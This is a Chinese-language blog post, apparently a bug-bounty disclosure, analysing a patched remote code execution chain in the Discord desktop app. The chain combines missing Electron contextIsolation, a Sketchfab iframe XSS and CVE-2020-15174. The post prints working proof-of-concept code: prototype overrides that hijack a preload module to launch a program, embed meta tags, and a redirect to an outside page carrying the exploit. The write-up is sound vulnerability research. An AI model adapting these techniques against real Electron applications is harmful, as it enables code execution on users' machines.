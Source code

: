```yaml
---
date: 2025-08-03T03:25:44+08:00
title: "Discord桌面应用远程代码执行漏洞分析"
tags: [Electron, JavaScript, RCE, 安全漏洞, XSS]
authors: qife
description: "本文详细分析了Discord桌面应用中存在的远程代码执行漏洞，该漏洞通过组合多个安全问题实现，包括缺失contextIsolation、iframe嵌入XSS以及导航限制绕过。"
---
```


# Discord桌面应用RCE漏洞分析

几个月前，我在Discord桌面应用中发现了一个远程代码执行漏洞，并通过其漏洞赏金计划进行了报告。这个RCE漏洞的有趣之处在于它需要组合多个漏洞才能实现。本文将分享详细的技术细节。

## 选择Discord作为目标的原因

我当时想研究Electron应用的安全漏洞，于是寻找提供Electron应用漏洞赏金的项目，最终选择了Discord。同时，作为Discord用户，我也想确认自己使用的应用是否安全。

## 发现的漏洞

我主要发现了以下三个漏洞，通过组合它们实现了RCE：
1. 缺失contextIsolation
2. iframe嵌入中的XSS
3. 导航限制绕过(CVE-2020-15174)

### 缺失contextIsolation

在测试Electron应用时，我首先检查了用于创建浏览器窗口的BrowserWindow API选项。通过分析这些选项，可以评估在渲染器中执行任意JavaScript时实现RCE的可能性。

Discord的Electron应用虽然不是开源项目，但其JavaScript代码以asar格式保存在本地，解压后即可阅读。

主窗口使用了以下选项：
```javascript
const mainWindowOptions = {
  title: 'Discord',
  backgroundColor: getBackgroundColor(),
  width: DEFAULT_WIDTH,
  height: DEFAULT_HEIGHT,
  minWidth: MIN_WIDTH,
  minHeight: MIN_HEIGHT,
  transparent: false,
  frame: false,
  resizable: true,
  show: isVisible,
  webPreferences: {
    blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
    nodeIntegration: false,
    preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
    nativeWindowOpen: true,
    enableRemoteModule: false,
    spellcheck: true
  }
};
```

其中最重要的是nodeIntegration和contextIsolation选项。从代码中可以看出，nodeIntegration设为false，而contextIsolation保持默认值false。

如果nodeIntegration设为true，网页JavaScript可以直接通过require()使用Node.js功能。例如在Windows上执行calc应用：
```html
<script>
  require('child_process').exec('calc');
</script>
```

本次nodeIntegration设为false，因此无法直接通过require()使用Node.js功能。但通过禁用contextIsolation，网页JavaScript仍可能影响渲染器中Electron内部JavaScript代码的执行。

contextIsolation禁用时，网页JavaScript可以覆盖JavaScript内置方法（如Array.prototype.join），从而干扰外部网页的JavaScript代码执行。这种行为很危险，因为Electron允许外部JavaScript代码使用Node.js功能，无论nodeIntegration设置如何。

这种技巧最初由Cure53在2016年的渗透测试中发现（我也参与了该测试），之后我们报告给Electron团队并引入了contextIsolation功能。

contextIsolation通过在网页和外部JavaScript代码之间引入隔离的上下文，防止互相影响。这是消除RCE可能性的必要功能，但在Discord中被禁用。

### 利用preload脚本实现RCE

在检查preload脚本时，我发现Discord通过DiscordNative.nativeModules.requireModule('MODULE-NAME')向网页暴露了允许调用的模块功能。

虽然不能直接使用child_process等模块实现RCE，但通过覆盖JavaScript内置方法干扰暴露模块的执行，仍可实现RCE。

以下是PoC代码。通过覆盖RegExp.prototype.test和Array.prototype.join，调用"discord_utils"模块中的getGPUDriverVersions函数可以弹出calc应用：
```javascript
RegExp.prototype.test=function(){
    return false;
}
Array.prototype.join=function(){
    return "calc";
}
DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();
```

getGPUDriverVersions函数尝试使用"execa"库执行程序：
```javascript
module.exports.getGPUDriverVersions = async () => {
  if (process.platform !== 'win32') {
    return {};
  }
  const result = {};
  const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;
  try {
    result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
  } catch (e) {
    result.nvidia = {error: e.toString()};
  }
  return result;
};
```

通常execa会执行nvidiaSmiPath指定的"nvidia-smi.exe"，但由于覆盖了RegExp.prototype.test和Array.prototype.join，参数在执行过程中被替换为"calc"。

### iframe嵌入中的XSS

接下来需要找到在应用中执行JavaScript的方法。我检查了自动链接和Markdown功能，但没发现问题，于是转向iframe嵌入功能。当发布YouTube等URL时，Discord会获取OGP信息并显示页面标题、描述等内容。

Discord从OGP提取视频URL，只有允许域且符合嵌入页面格式的URL才会被iframe嵌入。

通过检查CSP的frame-src指令，我发现sketchfab.com可以嵌入iframe，并在其3D模型页脚发现DOM型XSS。

以下是PoC，发布此URL到聊天后，Sketchfab会嵌入iframe，点击几次后执行任意JavaScript：
```html
<head>
    <meta charset="utf-8">
    <meta property="og:title" content="RCE DEMO">
    [...]
    <meta property="og:video:url" content="https://sketchfab.com/models/2b198209466d43328169d2d14a4392bb/embed">
    <meta property="og:video:type" content="text/html">
    <meta property="og:video:width" content="1280">
    <meta property="og:video:height" content="720">
</head>
```

但JavaScript仅在iframe中执行，需要从iframe跳转到顶级浏览上下文才能实现RCE。

### 导航限制绕过(CVE-2020-15174)

主进程代码中使用"new-window"和"will-navigate"事件限制导航：
```javascript
mainWindow.webContents.on('new-window', (e, windowURL, frameName, disposition, options) => {
  e.preventDefault();
  if (frameName.startsWith(DISCORD_NAMESPACE) && windowURL.startsWith(WEBAPP_ENDPOINT)) {
    popoutWindows.openOrFocusWindow(e, windowURL, frameName, options);
  } else {
    _electron.shell.openExternal(windowURL);
  }
});

mainWindow.webContents.on('will-navigate', (evt, url) => {
  if (!insideAuthFlow && !url.startsWith(WEBAPP_ENDPOINT)) {
    evt.preventDefault();
  }
});
```

测试发现，从iframe发起的顶级导航在某些情况下不会被阻止。进一步研究发现，当iframe与顶级窗口同源时会触发"will-navigate"事件，但跨源时不会触发。我认为这是Electron的bug并报告给了Electron团队。

利用这个bug，可以通过iframe的XSS导航到包含RCE代码的页面，如top.location="//l0.cm/discord_calc.html"。

## 漏洞修复

这些问题通过Discord的漏洞赏金计划报告后：
1. Discord首先禁用了Sketchfab嵌入
2. 通过添加sandbox属性到iframe防止导航
3. 最终启用了contextIsolation

Sketchfab的XSS通过其漏洞赏金计划快速修复。"will-navigate"事件的问题被标记为CVE-2020-15174并修复。

## 总结

这个案例展示了如何组合外部页面漏洞和Electron本身的bug实现RCE。希望本文能帮助开发者更好地保护Electron应用安全。